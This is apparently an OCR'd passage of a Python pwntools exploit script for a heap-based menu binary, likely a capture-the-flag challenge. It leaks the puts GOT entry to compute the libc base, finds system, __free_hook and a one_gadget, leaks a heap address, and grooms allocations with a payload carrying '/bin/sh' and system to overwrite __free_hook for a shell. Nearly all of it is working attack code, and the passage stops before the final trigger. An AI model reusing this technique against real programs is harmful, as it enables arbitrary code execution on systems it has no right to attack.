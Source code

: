 ```
    p.sendlineafter("> ",str(idx))
def List():
    p.sendlineafter("> ", str(2))
def Diagnostics(address):
    p.sendlineafter("> ", str(4))
    p.sendlineafter("let me know which memory address you need...\n",str(address))
    
def main():
    head = 0x602050
    got_puts = 0x601fb0
    Diagnostics(got_puts)
    puts = int(p.recvuntil("\n")[:-1], 16)
    log.success("got_puts: " + hex(puts))
    libc_base = puts - libc.symbols['puts']
    log.success("libc_base: " + hex(libc_base))
    free_hook = libc_base + libc.symbols['__free_hook']
    system = libc_base + libc.symbols['system']
    one = libc_base + 0xf03a4 
    log.success("one_gadget: " + hex(one))
    #temp = p64(one)
    
    offset = 0x64
    payload = p64(0)
    payload += b'A'*4
    Draft(1,1, payload)
    Draft(1,1, payload)
    Draft(1,1, payload)

    UnDraft(0x68)
    List() # off = 0x430
    p.recvuntil("Tribute 0 [")
    leak = u64(p.recvuntil("]")[:-1].ljust(8, b'\x00'))
    heap_base = leak - 0x430 
    log.success("heap_base: " + hex(heap_base))
    
    
    
    temp = p64(system)
    Draft(1,1, temp)
    Draft(1,1, payload)
    UnDraft(0)
    UnDraft(0x64)
    for i in range(4):
        Draft(1,1, payload)

    Draft(1,1, payload)
    Draft(1,1, payload)
    
    payload1 = b'/bin/sh\x00'
    payload1 += p64(system)
    payload1 += p64(free_hook)
    payload1 += p64(100)
    
    Draft(1,1, payload1)# no day
    Draft(1,1, payload)

    for i in range(80 + 10):
        print(i)
        Draft(1,1, payload)
    Draft(1,1, b'a')
    UnDraft(8)
    
    
```